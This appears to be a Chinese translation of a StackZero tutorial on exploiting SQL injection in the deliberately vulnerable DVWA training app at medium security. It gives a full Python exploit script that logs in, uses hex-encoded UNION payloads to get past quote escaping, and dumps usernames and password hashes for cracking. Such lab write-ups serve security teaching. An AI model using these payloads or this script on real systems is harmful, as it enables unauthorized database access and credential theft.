





# 用 SQL 注入攻击黑客！DVWA 中等安全性—堆栈零

> 原文：<https://infosecwriteups.com/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9?source=collection_archive---------1----------------------->



# 学习 SQL 注入的最好方法

这是一篇非常实用的文章，如果你有耐心读完，它将教你如何用 Python 为 DVWA 编写一个自动化的 SQL 注入漏洞。我们还会看到如何改变转义函数(是的，这不足以保证应用程序的安全)。我认为学习 SQL 注入的最好方法是将其付诸实践。
这就是为什么，正如我们在[这篇文章](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)中所做的，我想继续尝试利用 DVWA 中等安全性并学习 SQL 注入。
我还想给大家演示一下如何手动操作，以便更好地理解整个过程。在本教程中，我不会展示准备阶段，但我想当然地认为读者会有一个工作的 DVWA 机器。
如果不知道怎么做，请看这里的第一部。

这里列出了所有关于 SQL 注入的文章，以便快速浏览:

# 带内 SQL 注入

*   [SQL 注入:您需要了解的内容](https://medium.com/codex/sql-injection-what-you-need-to-know-stackzero-abc80bc1ea5e)
*   [通过黑客攻击易受攻击的应用程序，在实践中学习 SQL 注入！](https://medium.com/bugbountywriteup/learn-sql-injection-in-practice-by-hacking-vulnerable-application-stackzero-ef7931c72aec)
*   [如何用 SQL 注入攻击进行黑客攻击！DVWA 低安全性](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)
*   [黑客用 SQL 注入攻击！DVWA 中等安全性](/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9)
*   [黑客用 SQL 注入攻击！DVWA 高安全性](/hack-with-sql-injection-attacks-dvwa-high-security-stackzero-713638840515)

# 盲人 SQL 注入

*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 1 部分)](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 2 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 3 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-3-stackzero-911545003f01)

# DVWA SQL 注入快速概览

在开始之前，让我们登录，设置一个中等安全级别，并移动到 DVWA 的 SQL 注入页面。

这是我们应该看到的:



从这个页面来看，很明显我们没有自由输入，所以为了获得更多信息，让我们检查一下元素的代码(在 Firefox 中右键单击+Q)。

我们对表单代码感兴趣，这就是我们所看到的:

```
<form action="#" method="POST">
  <p> User ID: <select name="id">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
      <option value="4">4</option>
      <option value="5">5</option>
    </select>
    <input type="submit" name="Submit" value="Submit">
  </p>
</form>
```

所以我们能得到的信息是:

*   该操作链接到页面本身
*   与第一部分不同，这是一个 [POST](https://en.wikipedia.org/wiki/POST_(HTTP)) 请求

现在我们有了这些信息，我们可以准备一个详细的行动计划。

或许你可以在网上找到大量的教程，向你解释如何使用 Burp Suite 解决这个问题。但是我想向您展示如何使用 Python 获得相同的结果。
我坚信了解 SQLi 如何工作的最好方法是亲自动手！
因此，我想向您展示如何通过一个简单的 Python 脚本获得结果！

# 准备环境

先决条件没有那么多，除了在我们的 OS 上有 Python 3(默认安装在 [Kali Linux](https://www.stackzero.net/how-to-install-kali-linux-on-virtualbox-in-a-few-minutes/) 上)，我们还必须安装那些库:

*   [BeautifulSoup](https://www.crummy.com/software/BeautifulSoup/) :负责解析 HTML 的库。
*   [请求](https://requests.readthedocs.io/en/latest/):帮助发送 HTTP 请求的库。

因此，我们可以在终端上安装我们需要的所有东西，只需简单的一行代码:

```
pip install requests_html
```

在依赖项的安装过程结束后，我们终于可以开始编写代码了！

# 如何用 Python 请求登录 DVWA？

如果我们想使用 Python 模块，我们将面临的第一个问题是，在使用 SQLi 之前，我们需要登录到应用程序。
最简单的方法是使用像 [Burp Suite](https://portswigger.net/burp) 这样的工具，但这不是深入理解的最佳方式，所以让我们试着只使用我们的脚本技巧来完成任务！
登录问题有多种解决方案:

*   使用类似 [Selenium](https://selenium-python.readthedocs.io/) 的浏览器自动化库。
*   将会话 cookie 复制粘贴到 Python 脚本中
*   使用来自请求的会话类

在本教程中，我会选择第三个。

第一步是看一看登录页面的 HTML 代码，特别是，我们需要了解表单是如何工作的。

这是代码检查后的样子:

```
<form action="login.php" method="post">
  <fieldset>
    <label for="user">Username</label>
    <input type="text" class="loginInput" size="20" name="username">
    <br>
    <label for="pass">Password</label>
    <input type="password" class="loginInput" autocomplete="off" size="20" name="password">
    <br>
    <br>
    <p class="submit">
      <input type="submit" value="Login" name="Login">
    </p>
  </fieldset>
  <input type="hidden" name="user_token" value="5fa49c3b3f753faf6fc7a1c5386ae86f">
</form>
```

我们可以收集复制请求所需的信息:

*   表单操作是“login.php”
*   方法是[贴](https://en.wikipedia.org/wiki/POST_(HTTP))
*   用户名的输入字段将“*用户名*作为名称属性
*   密码的输入字段将“*密码”*作为名称属性
*   有一个 [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery) 令牌，其名称属性为“*用户令牌*

给定这些信息，我们需要一个方法来返回一个有效的请求会话，我们可以在这个会话上工作！

在写它之前，我们需要另一条信息:是否有一些我们想要设置的 cookies？
我们可以通过在 Firefox 上按 SHIFT+F9 来检查，结果应该是这样的:



因此，很明显，我们必须将安全级别设置到 cookies 中，只是为了使代码更具可读性，我们将所有级别保存在一个全局数组中。
让我们看看代码

```
security_levels =  ["low", 
                    "medium", 
                    "high", 
                    "impossible"]def login(url, security):
    s = requests.Session()
    s.cookies.set("security", security_levels[security])
    response = s.get(url)
    soup = BeautifulSoup(response.text, "html.parser")
    user_token = soup.find("input", {"name": "user_token"})

    data = {
        "username": "admin",
        "password": "password",
        "Login": "Login",
        "user_token": user_token["value"]
    }
    response = s.post(url, data=data)

    return s
```

代码正在进行一些简单的操作:

*   它创建一个会话对象，设置安全 cookie，然后向一个 URL(登录页面的 URL)发出一个 [GET](https://www.w3schools.com/tags/ref_httpmethods.asp) 请求。
*   它将响应解析为 HTML，找到具有 name 属性“user_token”的输入元素，并使用用户名、*密码*和 *user_token* 的数据创建一个字典。
    (刚刚在 [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery) 令牌上快速刷新；它是一个随机生成的值，必须发送到操作页面，以证明请求的合法性。)
*   然后，它向带有数据字典的 URL 发出一个 [POST](https://en.wikipedia.org/wiki/POST_(HTTP)) 请求。
*   它返回一个有效的会话，我们可以用它来处理下一个请求。

# 使用请求发送 DVWA SQLi 部分中的查询

现在我们有了会话，我们不必担心 cookies，我们可以将所有的精力集中在利用上。
正如我们在[之前的文章](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)中看到的，关于 DVWA 上的 SQL 注入，同样使用 level medium，我们需要运行许多查询。

所以避免代码重复的最好方法是定义一个函数来发送查询。

先看代码再评论吧！

```
def send_query(query, session):data = { "id": query,
            "Submit": "Submit"
    }

    response = session.post(sqli_url, data=data)
    soup = BeautifulSoup(response.text, "html.parser")
    final_result = soup.find("pre")
    return final_result
```

这个方法非常简单明了。

*   是一个向网站提交 [SQL](https://en.wikipedia.org/wiki/SQL) 查询并返回结果的函数。
*   该查询作为一个 [POST](https://en.wikipedia.org/wiki/POST_(HTTP)) 请求提交，查询字符串在“id”参数中。
*   结果作为最终将被打印的 BeautifulSoup 对象返回。

# 准备剧本

为了使我们的工作更容易，首先要做的是设置一些全局变量:

*   **IP 地址:**它很可能会改变，所以我们需要一个舒适的地方来改变它。
*   **安全级别:**它使代码更具可读性
*   **查询:**不止一个变量，它是一个节。事实上，我们需要运行不同的查询，所以最好将它们放在一个可见的地方，最终的想法是将所有要在脚本中使用的查询放在源代码的这一部分。

```
# Cookies for security level
security_levels =  ["low", 
                    "medium", 
                    "high", 
                    "impossible"]
# URL section
base_ip = "10.10.91.189"
login_url = f"[http://{base_ip}/login.php](http://{base_ip}/login.php)"
sqli_url = f"[http://{base_ip}/vulnerabilities/sqli/](http://{base_ip}/vulnerabilities/sqli/)"# Query section
query = "1' OR 1=1 #"
```

现在我们需要编写我们的 main，运行脚本并查看结果，这只是一个快速测试:

```
def beautify_query_single(query_result):
    beautified_query_result = str(query_result).replace('<br/>', '\n'
            ).replace('<pre>', '').replace('</pre>', '')
    return beautified_query_result.splitlines()[2].split(':')[1].strip()def beautify_query_double(query_result):
    beautified_query_result = str(query_result).replace('<br/>', '\n'
            ).replace('<pre>', '').replace('</pre>', '')
    return beautified_query_result.splitlines()[1].split(':')[1] + ' ' \
        + beautified_query_result.splitlines()[2].split(':')[1]if __name__ == "__main__":session = login(login_url, 1)
    response = session.get(sqli_url)
    soup = BeautifulSoup(response.text, "html.parser")
    query_result = beautify_query(send_query(query, session))
    beautified_query_result = (
        query_result.replace("<br/>", "\n").replace("<pre>", "").replace("</pre>", "")
    )
    print(beautified_query_result)
```

这段代码是这样做的:

*   使用登录 URL、用户名和密码登录网站，安全级别为中等。
*   访问 SQLi URL。
*   向网站发送查询。
*   打印查询结果。

*美化 _ 查询*函数只是移除了 HTML 标签，并将查询 _ 结果的格式设置得更好一些。
*single*版本只返回一个值，而 *double* 版本返回两个值，当我们想要在脚本结束时一起检索用户名和密码时，这很有用。

通过使用前面的查询运行脚本，我们得到一个错误:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\' OR 1=1#' at line 1
```

错误似乎出在单引号上，它被删除了，通过删除它，一切似乎都正常工作了。



# 运行脚本并利用 SQLi

在此之前，我们可以运行我们之前看到的使用 GROUP BY 技术的 main，以便了解查询中涉及的列数。
为此，让我们将该查询替换为:

```
1 ORDER BY 1 # 
1 ORDER BY 2 # 
1 ORDER BY 3 # 
...
```

当我们数到三时，会出现一个错误:

```
Unknown column '3' in 'order clause'
```

现在我们知道有两列。

现在我们只需要运行我们在[上一篇文章](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)中看到的几乎相同的查询，只做一些修改。

# 关于架构的信息

我们理解模式细节的方式与前一部分没有太大的不同。
首先，我们要定义查询:

```
query_version = "-1 UNION SELECT 1, VERSION()#" 
query_database = "-1 UNION SELECT 1,DATABASE() #"
```

然后是 main 方法中的相关部分:

```
print("The database version is:") print(beautify_query_single(send_query(query_version, session)[0])) print() 
print("The database name is:") 
db_name = beautify_query_single(send_query(query_database, session)[0]) 
print(db_name) print()
```

# 如何在 SQL 注入攻击中使用不带引号的字符串

正如我们在前面的测试中所看到的，服务器很可能在逃避我们的引用，所以我们需要一种技术来绕过这个障碍。
我们有两种方法:

*   通过字符的 [ASCII](https://en.wikipedia.org/wiki/ASCII) 值连接字符
*   使用十进制表示

让我们来看看这两种情况的一个快速示例，我们希望从名为“users”的表中选择一个密码，其中用户名是“john”:

经典 SQL 查询:

```
SELECT password FROM users WHERE username='john'
```

相同的查询，但是使用了由 ASCII 值选择的字符的串联:

```
SELECT password FROM users WHERE username=CONCAT(CHAR(106),CHAR(111),CHAR(104),CHAR(110))
```

最后，让我们看看我们将在本教程中使用的技术，使用十六进制表示。

```
SELECT password FROM users WHERE username=0x6a6f686e
```

在尝试将我们刚刚学到的东西付诸实践之前，我只想向您展示如何用 Python 将字符串转换成十六进制表示

```
name = "john" 
hex_name = name.encode('utf-8').hex()
```

有了这两行简单的代码，我们就有了一个包含十六进制表示“john”的变量。我们还必须记住，MySQL 需要“0x”前缀，所以我们需要手动添加它！

# 获取表格信息

在这一步中，我们希望获得有关感兴趣的表及其列的信息。

给我们提供结果的查询如下:

```
-1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa';
```

我们有两个问题:

*   引号被转义，这个查询将不起作用
*   脚本必须同时运行，所以在运行脚本之前我们不知道模式名

我们可以通过用相应的十六进制表示替换字符串来解决第一个问题，通过使用格式字符串并在运行时插入值来解决第二个问题(然后在我们的脚本中用十六进制表示替换它)。

因此，Python 查询变量将是这样的:

```
query_tables = "-1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type=0x62617365207461626c65 AND table_schema=0x{}; #"
```

另一个输入必须按照相同的原则检索列名，应该如下所示。

```
-1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users'
```

问题是一样的:

*   我们不应该知道表的名称是“user”
*   引号被转义

所以即使是解也和之前的没有什么不同，查询变量是这样的

```
query_users_cols = "-1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name=0x{} #"
```

由于结果将是两个查询的列表，我们希望用户能够从主要的标准输入中选择感兴趣的值。

```
table_name = input("Type the table name you want\n")
print("\nThe columns' names in users table are:")
for column in send_query(
    query_users_cols.format(table_name.encode("utf-8").hex()), session
):
    print(beautify_query_single(column))
print ()
```

您可以注意到表名是如何用前面解释的 Python 方法转换成十六进制版本的。

# 获取用户名和密码

我们已经看到了中等安全级别的 DVWA 中的 SQL 注入是如何给初学者带来一些麻烦的。然而，如果你仔细阅读这篇文章，最后一步应该是自然而然的。

即使在这种情况下，我们也希望在运行时插入想要显示的列名。
所以查询变量如下:

```
query_users_names = "-1 UNION SELECT {}, {} FROM users #"
```

这是主要的相关部分:

```
username, password = input(
    "Type username and password column values with comma separator:\n"
).split(",", 1)
print("The users' names and passwords in users table are:")
for user in send_query(
    query_users_names.format(username.strip(), password.strip()), session
):
    print(beautify_query_double(user))
```

该代码要求用户输入用户名和密码列值，并用逗号分隔。然后打印出用户表中的用户名和密码。
列的值来自逗号分隔的输入。

# 结论

让我们看看完整的代码，然后运行它！

```
import requests
from bs4 import BeautifulSoup# Cookies for security level
security_levels = ["low", "medium", "high", "impossible"]
# URL section
base_ip = "10.10.35.182"
login_url = f"[http://{base_ip}/login.php](http://{base_ip}/login.php)"
sqli_url = f"[http://{base_ip}/vulnerabilities/sqli/](http://{base_ip}/vulnerabilities/sqli/)"# Query section
query_version = "-1 UNION SELECT 1, VERSION()#"
query_database = "-1 UNION SELECT 1,DATABASE() #"
query_tables = "-1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type=0x62617365207461626c65 AND table_schema=0x{}; #"
query_users_cols = "-1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name=0x{} #"
query_users_names = "-1 UNION SELECT {}, {} FROM users #"def send_query(query, session):data = {"id": query, "Submit": "Submit"}response = session.post(sqli_url, data=data)
    soup = BeautifulSoup(response.text, "html.parser")final_result = soup.find_all("pre")
    return final_resultdef login(url, security):
    s = requests.Session()
    s.cookies.set("security", security_levels[security])
    response = s.get(url)
    soup = BeautifulSoup(response.text, "html.parser")
    user_token = soup.find("input", {"name": "user_token"})data = {
        "username": "admin",
        "password": "password",
        "Login": "Login",
        "user_token": user_token["value"],
    }
    response = s.post(url, data=data)return sdef beautify_query_single(query_result):
    beautified_query_result = (
        str(query_result)
        .replace("<br/>", "\n")
        .replace("<pre>", "")
        .replace("</pre>", "")
    )
    return beautified_query_result.splitlines()[2].split(":")[1].strip()def beautify_query_double(query_result):
    beautified_query_result = (
        str(query_result)
        .replace("<br/>", "\n")
        .replace("<pre>", "")
        .replace("</pre>", "")
    )
    return (
        beautified_query_result.splitlines()[1].split(":")[1]
        + " "
        + beautified_query_result.splitlines()[2].split(":")[1]
    )if __name__ == "__main__":session = login(login_url, 1)
    response = session.get(sqli_url)
    soup = BeautifulSoup(response.text, "html.parser")
    print("The database version is:")
    print(beautify_query_single(send_query(query_version, session)[0]))
    print()
    print("The database name is:")
    db_name = beautify_query_single(send_query(query_database, session)[0])
    print(db_name)
    print()
    print("The tables' names are:")
    for table in send_query(
        query_tables.format(db_name.encode("utf-8").hex()), session
    ):
        print(beautify_query_single(table))
    print()
    table_name = input("Type the table name you want\n")
    print("\nThe columns' names in users table are:")
    for column in send_query(
        query_users_cols.format(table_name.encode("utf-8").hex()), session
    ):
        print(beautify_query_single(column))
    print()
    username, password = input(
        "Type username and password column values with comma separator:\n"
    ).split(",", 1)
    print("The users' names and passwords in users table are:")
    for user in send_query(
        query_users_names.format(username.strip(), password.strip()), session
    ):
```

此时，我们可以运行脚本并保留我们需要的所有数据:



和上一关一样，我们需要破解密码。所以让我们再去一次[破解站](https://crackstation.net/)，在那里粘贴管理员的密码！


现在我们已经发现密码是"*密码*"我们可以在中等水平的 DVWA 机器上完成我们的 SQL 注入之旅。
我希望你深刻理解我们所做的，我希望你通过测试这个漏洞增加很多乐趣。如果你喜欢，请继续关注我的博客，我很乐意发布这样的内容！
下篇见！

*原载于 2022 年 8 月 29 日 https://www.stackzero.net*[](https://www.stackzero.net/sql-injection-dvwa-medium/)**。**

**来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！**